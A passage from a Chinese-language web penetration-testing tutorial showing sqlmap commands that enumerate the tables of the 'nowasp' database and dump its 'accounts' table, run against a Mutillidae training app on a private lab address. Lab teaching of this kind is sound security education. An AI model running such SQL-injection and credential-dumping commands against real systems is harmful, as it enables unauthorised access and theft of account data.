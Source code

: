     ![](../img/5afc42d9e581226fd5521113bb8cde19.png)

8.  如果我们打开获得用户名和密码，类似于我们在上一个秘籍那样，我们需要知道含有这些信息的表名称。在终端中执行下列代码：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=test&password=test&user-info-php-submitbutton=View+Account+Details" -p username -D nowasp --tables
    ```

    ![](../img/ef5a6227e95c1f3d12f4bec5a0fa9dc4.png)

    SQLMap 会保存所执行的注入日志，所以第二次攻击会花费更少的时间。你可以看到，我们指定了要提取信息（nowasp）的数据库，并告诉 SQLMap 我们想获取这个数据库的表名称列表。

9.  `accounts`表使含有我们想要的信息的表之一。让我们转储内容：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=test&password=test&user-info-php-submitbutton=View+Account+Details" -p username -D nowasp -T accounts --dump
    ```
